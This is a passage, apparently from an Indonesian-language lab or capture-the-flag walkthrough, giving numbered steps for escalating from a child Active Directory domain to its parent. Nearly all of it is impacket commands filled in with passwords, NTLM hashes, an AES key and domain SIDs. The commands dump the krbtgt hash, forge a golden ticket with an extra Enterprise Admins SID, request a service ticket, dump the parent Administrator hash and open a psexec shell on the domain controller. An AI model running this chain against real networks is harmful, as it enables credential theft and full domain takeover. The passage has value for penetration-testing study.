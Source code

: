 ```bash
secretsdump.py -debug child/corpmngr@192.168.98.120 -hashes :4cb3933610b827a281ec479031128cc6 -just-dc-user 'child\krbtgt'
```

Atau:

```bash
secretsdump.py -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'
```

### 12. Ambil SID Domain

```bash
lookupsid.py child/corpmngr:'User4&*&*'@child.warfare.corp
lookupsid.py child/corpmngr:'User4&*&*'@warfare.corp
```

### 13. Golden Ticket Attack

```bash
impacket-ticketer -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 \
-domain child.warfare.corp \
-domain-sid S-1-5-21-3754860944-83624914-1883974761 \
-extra-sid S-1-5-21-3375883379-808943238-3239386119-519 Administrator
export KRB5CCNAME=Administrator.ccache
```

### 14. Sinkronisasi Waktu

```bash
sudo apt install ntpsec-ntpdate -y
sudo ntpdig -S 192.168.98.2
```

### 15. Minta Service Ticket dan Dump Admin Hash

```bash
getST.py -spn 'CIFS/dc01.warfare.corp' -k -no-pass child.warfare.corp/Administrator
export KRB5CCNAME=Administrator@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
secretsdump.py -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator'
```

### 16. Akses Domain Controller Parent

```bash
psexec.py child.warfare.corp/Administrator@dc01.warfare.corp -k -no-pass -target-ip 192.168.98.2
```

Atau dengan hash:

```bash
psexec.py -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:c20a43b71503528c05c57fcbff0c78e3
```

---

